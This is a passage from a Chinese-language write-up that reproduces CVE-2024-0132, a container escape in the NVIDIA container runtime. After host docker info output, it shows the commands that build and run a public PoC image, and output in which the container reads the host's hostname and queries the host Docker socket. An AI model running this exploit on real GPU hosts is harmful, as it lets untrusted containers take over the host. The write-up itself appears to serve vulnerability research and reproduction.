 ```
  seccomp
   Profile: builtin
  cgroupns
 Kernel Version: 5.15.0-76-generic
 Operating System: Ubuntu 22.04.2 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 8
 Total Memory: 31.15GiB
 Name: wanglei-gpu3
 ID: bc9d2464-60ee-458d-93a0-fab77847a4b3
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Experimental: false
 Insecure Registries:
  127.0.0.0/8
 Live Restore Enabled: false
```

### 5.2 漏洞复现

> Note: 利用该漏洞需要具备部署自定义镜像的权限，ctrsploit仅提供漏洞利用的方法，无法直接通过ctrsploit来利用漏洞。

```
$ ctrsploit exploit cve-2024-0132
please run:
docker run -ti --runtime=nvidia --gpus=all ssst0n3/poc-cve-2024-0132

reference: https://github.com/ctrsploit/ctrsploit/blob/public/vul/cve-2024-0132/README.md
```

使用预先构建的poc镜像 ssst0n3/poc-cve-2024-0132 , 或临时构建。

```
root@wanglei-gpu3:~# git clone https://github.com/ssst0n3/poc-cve-2024-0132.git
root@wanglei-gpu3:~# cd poc-cve-2024-0132
root@wanglei-gpu3:~/poc-cve-2024-0132# docker build -t ssst0n3/poc-cve-2024-0132 .
...
root@wanglei-gpu3:~/poc-cve-2024-0132# docker run -ti --runtime=nvidia --gpus=all ssst0n3/poc-cve-2024-0132
+ cat /host/etc/hostname
wanglei-gpu3
+ curl --unix-socket /host-run/docker.sock http://localhost/containers/json
[{"Id":"6dac93a4b9aaa6e2db5bed64f550d111e6e9604375e3210b46b59b095635290f","Names":["/nifty_booth"],"Image":"ssst0n3/poc-cve-2024-0132","ImageID":"sha256:53f3d5c92e144343851ec800aa7a0af201517262498519cc4dfd53688da9b112","Command":"/bin/sh -c /entrypoint.sh","Created":1728996664,"Ports":[],"Labels":{"org.opencontainers.image.ref.name":"ubuntu","org.opencontainers.image.version":"24.04"},"State":"running","Status":"Up Less than a second","HostConfig":{"NetworkMode":"default"},"NetworkSettings":{"Networks":{"bridge":{"IPAMConfig":null,"Links":null,"Aliases":null,"NetworkID":"72649d2ea91c5c657b26de4af617b491e8f09bf9c2e5e8a44695ff10e68191b6","EndpointID":"be81eb91bfafd69bb442f3ccf9790ff5da9ae9ef42ad643aa4a686c3040f404b","Gateway":"172.17.0.1","IPAddress":"172.17.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:11:00:02","DriverOpts":null}}},"Mounts":[]}]
```
